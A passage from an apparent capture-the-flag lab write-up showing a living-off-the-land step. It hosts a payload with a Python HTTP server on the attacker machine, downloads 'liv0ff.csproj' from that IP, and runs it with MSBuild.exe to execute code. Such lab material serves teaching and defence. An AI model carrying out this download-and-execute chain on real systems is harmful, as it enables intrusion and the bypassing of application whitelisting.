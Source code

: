 		![task7-lessshell](./images/task7-lessshell.png)

	* Create http server on Attacker machine
	
		```
		python3 -m http.server 1337
		```

		![task7-http](./images/task7-http.png)

	* Download **liv0ff.csproj** via web browser
	
		```
		http://10.17.127.223:1337/liv0ff.csproj
		```

		![task7-download](./images/task7-download.png)

	* Run MSbuild command
	
		```
		c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\Users\thm\Downloads\liv0ff.csproj
		```

		![task7-build](./images/task7-build.png)
